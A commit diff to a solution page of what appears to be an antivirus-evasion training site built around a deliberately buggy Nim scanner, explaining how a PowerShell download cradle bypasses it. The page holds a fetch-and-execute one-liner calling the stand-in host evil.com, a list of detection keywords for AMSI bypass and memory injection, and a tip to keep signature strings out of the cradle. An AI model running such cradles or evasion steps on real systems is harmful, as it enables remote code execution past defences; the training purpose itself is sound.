

Before and after one commit to BenjiTrapp/MostShittyAV, a Jekyll site: the page built from solutions/14-download-cradle.md, in a window 1280 px wide and 1400 px high, scrolled down 1784 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Apply improvements from prior chat session
- nim_amsi_wrapper_dll.nim: add IAmsiStream vtable, fix ScanImpl to read
  content via GetAttribute instead of raw buffer cast, fix CloseSessionImpl
  signature (void return, uint64 session param)
- solutions/14: precise explanation of discard-bug with real source context
- challenges/19 + solutions/19: reworked archive-container technique descriptions
- architecture.md: corrected pattern list, ScanImpl details, wording fixes

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/solutions/14-download-cradle.md
+++ b/solutions/14-download-cradle.md
@@ -12,7 +12,7 @@ permalink: /solutions/14-download-cradle/
 
 ## Overview
 
-Exploit a critical design flaw in the scanner: the suspicious pattern detection logic uses `discard` for its result, meaning it identifies threats but **never blocks them**. Standard download cradles work because even if the scanner recognizes the pattern, it takes no action to prevent execution.
+Exploit a critical design flaw in the scanner: the suspicious pattern check (`suspiciousPatternCheck`) correctly identifies download cradle patterns and returns `false` — but the scan pipeline calls it with `discard`, meaning the return value is immediately thrown away. The file passes regardless of what the check finds.
 
 ## Working Code
 
@@ -70,33 +70,54 @@ IEX $data
 
 ## Why It Works
 
-Looking at the scanner source code (`nim_antimalware_sim.nim`), the suspicious pattern check has a critical flaw:
+Looking at the actual scanner source (`nim_antimalware_sim.nim`), the suspicious pattern
+check is implemented in two parts. First, a `containsSuspiciousPatterns` helper that
+returns a `(bool, string)` tuple, and a `suspiciousPatternCheck` proc on the `ScanEngine`
+that calls it and returns `false` when a pattern is found:
 
 ```nim
-proc checkSuspiciousPatterns(content: string): string =
-  # ... pattern matching logic ...
-  if hasDownloadCradle and hasExecution:
-    discard "suspicious"  # <-- BUG: result is discarded!
-  # ...
+# All 22 patterns the scanner recognises (from nim_antimalware_sim.nim):
+const suspiciousPatterns = [
+  "invoke-expression", "iex(",           "iex ",             "downloadstring",
+  "downloadfile",      "webclient",       "bitstransfer",     "start-process",
+  "invoke-webrequest", "net.webclient",   "reflection.assembly",
+  "frombase64string",  "encodedcommand",  "bypass",           "hidden",
+  "-nop",              "-noni",           "amsiutils",        "amsiinitfailed",
+  "virtualallocex",    "writeprocessmemory", "createremotethread", "shellcode"
+]
+
+proc suspiciousPatternCheck(self: ScanEngine): bool =
+  log("AMSI: Checking for suspicious script patterns...")
+  let (found, pattern) = containsSuspiciousPatterns(self.content)
+  if found:
+    log("AMSI: \e[33mWarning - Suspicious pattern detected: " & pattern & "\e[0m")
+    return false   # signals detection...
+  return true
+
+# In the scan pipeline — the BUG is here, NOT inside the proc:
+discard engine.suspiciousPatternCheck()  # <-- return value thrown away, never blocks
 ```
 
-The `discard` keyword in Nim explicitly throws away the value. This means:
+The `discard` keyword at the call site is what breaks enforcement. The detection
+function itself works correctly — it finds the pattern and returns `false`. But
+the pipeline ignores that result and continues to the next check, ultimately
+returning `true` (clean) to the caller.
 
-1. The scanner **does** detect the download cradle pattern
-2. It **does** identify it as suspicious
-3. But the detection result is **discarded** - never returned, never acted upon
-4. The function effectively returns nothing useful
-5. No blocking, no alerting, no quarantine occurs
-
-This is a **design flaw**, not a bypass technique. The scanner was written to identify suspicious patterns but the developer accidentally (or intentionally for this exercise) discarded the result instead of returning it or triggering an action.
+This is different from discarding a string literal inside the proc (which would
+be a Nim compiler warning); here `discard` is intentional and silences a
+meaningful boolean return value.
 
 ### What the Scanner Checks For
 
-The scanner looks for combinations of:
-- Download indicators: `WebClient`, `DownloadString`, `Invoke-WebRequest`, `Net.Http`
-- Execution indicators: `IEX`, `Invoke-Expression`, `& `, `Start-Process`
+The 22-pattern list covers download cradles (`webclient`, `downloadstring`,
+`invoke-webrequest`, `bitstransfer`), execution primitives (`iex`, `invoke-expression`,
+`start-process`), .NET reflection (`reflection.assembly`, `frombase64string`),
+common PowerShell evasion flags (`-nop`, `-noni`, `bypass`, `hidden`,
+`encodedcommand`), AMSI internals (`amsiutils`, `amsiinitfailed`), and memory
+injection indicators (`virtualallocex`, `writeprocessmemory`, `createremotethread`,
+`shellcode`).
 
-It correctly identifies these patterns but fails to act on them.
+**All of these generate a warning log line — none of them block the file.**
 
 ## How to Verify
 
@@ -114,27 +135,32 @@ It correctly identifies these patterns but fails to act on them.
    nim_antimalware_sim.exe test_cradle.ps1
    ```
 
-3. Expected result: **No blocking occurs** - the scanner may log/identify the pattern but takes no enforcement action due to the `discard` bug.
+3. Expected result: **No blocking** — the scanner logs a warning for `webclient`
+   and `iex` but returns BENIGN because the `suspiciousPatternCheck` result is
+   discarded.
 
-4. Verify that signature detection still works independently:
+4. Verify that signature detection still blocks independently:
    ```powershell
-   # This WILL be detected (contains "malware" literal)
+   # This WILL be detected (contains the literal "malware" signature)
    Set-Content "test_sig.ps1" -Value '$x = "malware"'
    nim_antimalware_sim.exe test_sig.ps1
-   # Detected!
+   # → MALICIOUS
 
-   # This will NOT be blocked (download cradle without signatures)
+   # This will NOT be blocked (download cradle, no signature strings)
    Set-Content "test_cradle2.ps1" -Value '$wc = New-Object System.Net.WebClient; IEX $wc.DownloadString("http://evil.com/x")'
    nim_antimalware_sim.exe test_cradle2.ps1
-   # Not blocked due to discard bug
+   # → BENIGN (discard bug)
    ```
 
-5. The key insight: avoid putting actual signature strings ("malware", "virus", etc.) in the cradle script. The download cradle itself is safe; only literal signatures in the file trigger real detection.
+5. The key insight: keep literal signature strings (`malware`, `virus`, etc.) out
+   of the cradle. The cradle patterns themselves never block.
 
 ## Security Implications
 
-This demonstrates why defense-in-depth matters:
-- A scanner that detects but doesn't block is equivalent to no scanner
-- Real AV products use multiple layers: static signatures, heuristics, behavioral analysis, sandboxing
-- A single `discard` bug negates entire detection capabilities
-- Download cradles are one of the most common initial access techniques because they separate the indicator (the cradle) from the payload (downloaded content)
+This demonstrates why detection-without-enforcement is equivalent to no detection:
+- A scanner that warns but never blocks is transparent to an attacker
+- Real AV products combine static signatures, heuristics, behavioural analysis, and sandboxing
+- A single `discard` at the call site negates all pattern-matching work
+- Download cradles are one of the most common initial-access techniques because
+  they separate the detectable indicator (the cradle script on disk) from the
+  payload (downloaded into memory at runtime, never touching disk)
````
Also changed, not shown: architecture.md (+32 -19 lines), challenges/19-archive-container.md (+35 -11 lines), solutions/19-archive-container.md (+119 -119 lines), 1 other file.
